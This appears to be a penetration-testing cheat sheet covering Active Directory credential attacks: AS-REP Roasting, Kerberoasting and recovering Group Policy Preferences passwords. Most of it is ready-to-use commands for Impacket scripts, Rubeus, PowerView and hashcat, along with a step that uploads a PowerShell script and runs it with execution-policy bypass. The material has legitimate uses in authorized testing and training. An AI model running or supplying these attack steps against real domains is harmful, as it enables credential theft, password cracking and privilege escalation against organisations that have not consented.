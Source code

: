 "AS-REP Roasting" is a *post-exploitation* technique intended in the sense that **it can be used to compromise an additional user** and thus expand the chances of increasing one's privileges in the domain.

**Requirements**:
- valid usernames for which the *UF_DONT_REQUIRE_PREAUTH* property is set

**Steps**:
1. identify *AS-REP roastable* users
	- `python3 GetNPUsers.py '<DOMAIN NAME>/<USERNAME>:<PASSWORD>' -dc-ip <IP DC>`
2. get *AS-REP* ticket for vulnerable user
	- `python3 GetNPUsers.py '<DOMAIN NAME>/<USERNAME>:<PASSWORD>' -dc-ip <IP DC> -request'`
3. *AS-REP* ticket cracking
	- `hashcat -m 18200 <AS-REP.txt> <wordlist>`

Alternatively, from within, you can use *Rubeus* with the following command:
- `.\Rubeus.exe asreproast /nowrap`
- output is directly compatible for cracking with *hashcat*

## Kerberoasting

**Requirements**:
- domain user accounts associated with SPN

**Note**: TGSs of SPNs associated with "krbtgt" account, "computer account", "managed service account" or "managed service account" are indeed crackable. To check for "managed service account" and "managed service account": `Get-ADServiceAccount -Filter *` (requires *AD RSAT*).

**Steps**:
- get *TGS*
	- *remotely*: `python3 GetUserSPNs.py <DOMAIN NAME>/<USERNAME>:<PASSWORD> -dc-ip <IP DC> -request`
	- *from within* 
		- (Rubeus) `.\Rubeus.exe kerberoast /user:<USERNAME> /outfile:hashes.kerberoast`
		- (PowerView) `Request-SPNTicket -SPN "<SPN>" -Format Hashcat`
- *cracking*
	- `hashcat -m 13100 <TGS.txt> <wordlist>`

Check ***always*** SPN associated with the *kerberoastable* account: it can be a clue we can use to figure out which machine/application the user can access.

Alternatively, from the inside, you can use *Rubeus* with the following command:
- `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
- output is directly compatible for cracking with *hashcat*

## GroupPolicyPreferences

**Requirements**:
- target vulnerable to MS14-025

**Steps**:
- *remotely*
	- (*via Pass the Password*) `Get-GPPPassword.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP DC>`
	- (*via Pass the Hash*) `Get-GPPPassword.py -hashes <LM HASH>:<NT HASH> <DOMAIN NAME>/<USERNAME>:@<IP DC>`
- *upload to target*
	- [https://raw.githubusercontent.com/vysecurity/ps1-toolkit/master/Invoke-GPPPassword.ps1](https://raw.githubusercontent.com/vysecurity/ps1-toolkit/master/Invoke-GPPPassword.ps1)
	- `powershell -ep bypass`
	- `. .\Invoke-GPPPassword.ps1`
	- `Get-GPPPassword`
